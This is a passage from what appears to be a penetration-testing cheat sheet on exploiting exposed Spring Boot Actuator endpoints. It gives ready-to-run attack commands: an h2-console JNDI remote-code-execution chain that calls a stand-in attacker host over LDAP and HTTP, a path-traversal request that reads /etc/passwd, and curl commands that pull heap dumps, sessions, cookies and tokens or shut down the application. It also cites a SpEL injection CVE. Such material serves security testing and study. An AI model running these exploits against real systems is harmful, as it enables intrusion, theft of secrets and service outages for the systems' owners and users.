    "route_id": "new_route",
    "filters": [
        "[[RewritePath /new_route(?<path>.*) = /${path}], order = 1]"
    ],
    "uri": "https://localhost",
    "order": 0
}
```

</details>

<details>

<summary>SpEL Injection</summary>

Applications using Spring Cloud Gateway in the version prior to `3.1.0` and `3.0.6`, are vulnerable to [CVE-2022-22947](https://spring.io/security/cve-2022-22947)  that leads to a [SpEL injection](spring-boot-actuators.md#spel-injection) attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.

You may check this links for more details:&#x20;

[https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg](https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg)

[https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947)

[https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)

</details>

### trace or httptrace

Displays HTTP trace information (by default, the last 100 HTTP request-response exchanges). It may disclose details about requests of internal applications as well as user cookies and JWT tokens.

`trace` requires an `HttpTraceRepository` bean.

```bash
curl http://<TARGET>/actuator/httptrace -i -X GET
curl http://<TARGET>/actuator/trace -i -X GET
```

### h2-console

<details>

<summary>RCE</summary>

To exploit, it requires the following conditions:

* `com.h2database.h2` dependency is used
* h2 console is enabled in Spring configuration `spring.h2.console.enabled=true`

You can gain RCE via JDNI in h2 database console:

Access the h2 console `/h2-console`. An application will refirect to `/h2-console/login.jsp?jsessionid=xxxxxx`. Catch `jsessionid` value.

Prepare a Java code for execution, you can reuse the [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java). Compile in such a way that it is compatible with earlier JDK versions:

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

Host compiled `JNDIObject.class` at `http://attacker-website.com/` and Set up a LDAP service with [marshalsec](https://github.com/mbechler/marshalsec):

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://attacker-website.com:80/#JNDIObject 1389
```

Trigger JNDI injection:

```bash
POST /h2-console/login.do?jsessionid=xxxxxx
Host: vulnerable-website.com
Content-Type: application/json
Referer: http://vulnerable-website.com/h2-console/login.jsp?jsessionid=xxxxxx

{
    "language": "en",
    "setting": "Generic+H2+(Embedded)",
    "name": "Generic+H2+(Embedded)",
    "driver": "javax.naming.InitialContext",
    "url": "ldap://attacker-website.com:1389/JNDIObject",
    "user": "",
    "password": ""
}

#Or curl
curl -X POST -H 'Content-Type: application/json' -d '{"language": "en","setting": "Generic+H2+(Embedded)","name": "Generic+H2+(Embedded)","driver": "javax.naming.InitialContext","url": "ldap://attacker-website.com:1389/JNDIObject","user": "","password": ""}' http://<TARGET>/h2-console/login.do?jsessionid=xxxxxx
```

</details>

### mappings

[mappings](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#mappings) displays a collated list of all `@RequestMapping` paths.

```bash
curl http://<TARGET>/actuator/mappings -i -X GET
```

### sessions

[sessions](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#sessions) allows retrieval and deletion of user sessions from a Spring Session-backed session store. Requires a Servlet-based web application using Spring Session.

```bash
curl http://<TARGET>/actuator/sessions?username=alice -i -X GET
```

### shutdown

[shutdown](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#shutdown) lets an application be gracefully shutdown. Disabled by default.

```bash
$ curl http://<TARGET>/actuator/shutdown -i -X POST
```

### heapdump

[heapdump](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#heapdump) returns a hprof heap dump file that may contain sensitive data, such as `env` properties. To retrieve data from a prof heap dump use [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) tool, check [Find password plaintext in spring heapdump using MAT](https://landgrey.me/blog/16/).

```bash
curl http://<TARGET>/actuator/heapdump -O
```

### logfile

[logfile](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#log-file) returns the contents of the logfile (if `logging.file.name` or `logging.file.path` properties have been set). Supports the use of the HTTP Range header to retrieve part of the log file's content.

```bash
curl http://<TARGET>/actuator/logfile -i -X GET
```

### logview

[spring-boot-actuator-logview](https://github.com/lukashinsch/spring-boot-actuator-logview) version before `0.2.13` is vulnerable to path traversal that allows you to retreive arbitrary files.

```bash
# retreaving /etc/passwd
curl http://<TARGET>/manage/log/view?filename=/etc/passwd&base=../../../../../
```

### dump or threaddump

[dump or threaddump](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#threaddump) performs a thread dump from the application's JVM.

```bash
curl http://<TARGET>/actuator/threaddump -i -X GET -H 'Accept: application/json'
curl http://<TARGET>/actuator/dump -i -X GET -H 'Accept: application/json'
```

## Resources

{% embed url="https://github.com/mpgn/Spring-Boot-Actuator-Exploit" %}

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators" %}
